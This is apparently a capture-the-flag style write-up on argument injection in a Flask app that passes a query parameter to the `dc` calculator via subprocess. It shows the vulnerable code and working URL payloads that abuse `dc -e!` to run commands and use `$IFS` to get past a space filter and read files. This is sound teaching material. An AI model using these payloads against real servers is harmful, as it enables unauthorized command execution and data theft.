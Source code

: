 # System Command Injection via Web

### Technique 1 

> **Target :** Flask
>
> **Originally extecuted system command :** `dc` (A calculator app)

**Vulnerable Server Code:**

```py
@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)
```

**The vulnerability:**

Though the command to be executed by `subprocess.run()` is supplied as **a list of strings** (instead of a single string) and the **absence of** `shell=True` might make the code look secure at the first glance, in reality we can still inject malicious arguments into the command being executed, which happens to be `dc` in this case.

Therefore, even if we cannot do stuff like `something; whoami;`, `something | whoami;`, `somethingtrue && whoami;` etc., we can still **inject valid malicious arguments to abuse the executable's intended functionality**.

We can **confirm the possibility of argument injection** by sending GET requests with query strings `?sequence=-h` and `?sequence=-V` which will lead to the execution of the commands `dc -h.dc` and `dc -V.dc`respectively (the `.dc` at the end is added by the Flask code and is immaterial here for these options).

The obtained outputs are as follows:

```bash
# For GET request ?sequence=-h

Usage: dc [OPTION] [file ...]
  -e, --expression=EXPR    evaluate expression
  -f, --file=FILE          evaluate contents of file
  -h, --help               display this help and exit
  -V, --version            output version information and exit

Email bug reports to:  bug-dc@gnu.org .

# For GET request ?sequence=-V

dc (GNU bc 1.07.1) 1.4.1

Copyright 1994, 1997, 1998, 2000, 2001, 2003-2006, 2008, 2010, 2012-2017 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE,
to the extent permitted by law.
```

**The exploit:**

By looking at the man page of `dc`, we can find that **`!` helps in arbitrary system command execution**.

So the ideal cmd to be run on the target would be `dc -e!whoami`; but the Flask code adds ".dc" at the end, which will run `dc -e!whoami.dc` causing an error. So we must supply a URL encoded newline character (`%0A`) in the query string to get the needed O/p.

The query string: `?sequence=-e!whoami%0A`

**Payload that bypasses `' '` and `'flag'` filters to get the flag's content** : `?sequence=-e!cat%5C$IFS*.txt%0A`

The aim is to run `dc -e!cat\$IFS*.txt` which uses `$IFS` *(`\` to escape `$`)* to introduce space after `cat` cmd and `*.txt` helps in locating all .txt files in the current directory to be used with the `cat` cmd.




